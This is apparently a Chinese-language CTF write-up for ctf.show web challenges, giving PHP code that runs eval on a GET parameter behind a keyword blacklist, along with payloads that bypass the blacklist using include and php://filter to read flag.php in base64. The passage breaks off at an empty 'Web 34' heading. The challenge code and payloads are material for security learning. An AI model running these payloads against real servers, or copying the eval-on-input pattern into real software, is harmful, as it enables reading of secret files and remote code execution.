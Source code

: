 ```PHP
  
*/  
  
error_reporting(0);  
if(isset($_GET['c'])){
	$c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){  
        eval($c);  
    }
}else{
	highlight_file(__FILE__);  
}
```

访问网站的时候用这个payload.
```
c=$nice=include$_GET[url]?>&url=php://filter/read=convert.base64-
encode/resource=flag.php
```
- `include` 是 PHP 的一个函数，它会将指定文件的内容嵌入到当前脚本中执行。
- #### **恶意 `url` 参数**
```php
url=php://filter/read=convert.base64-encode/resource=flag.php
```
这部分代码的含义如下：
- `php://filter/`：PHP 提供的一种特殊的流，可以在访问文件时应用各种过滤器（filters）。`php://filter` 允许你对文件的内容进行操作（如编码、解码等）。
- `read=convert.base64-encode/`: 这是一种过滤器链，它会读取文件内容，并在读取时将内容转换为 Base64 编码。
- `resource=flag.php`：这是被读取和编码的实际文件，表示目标是服务器上的 `flag.php` 文件。
# Web 33
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 02:22:27  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
*/  
//  
error_reporting(0);  
if(isset($_GET['c'])){
	$c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){  
        eval($c);  
    }
}else{
	highlight_file(__FILE__);  
}
```
用下面这个恶意代码，就可以了。
```Bash
https://86396f60-51bc-4fed-9613-4845a4e2675f.challenge.ctf.show/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```
![[Pasted image 20240824194452.png]]
![[Pasted image 20240824194518.png]]
# Web 34
```PHP
```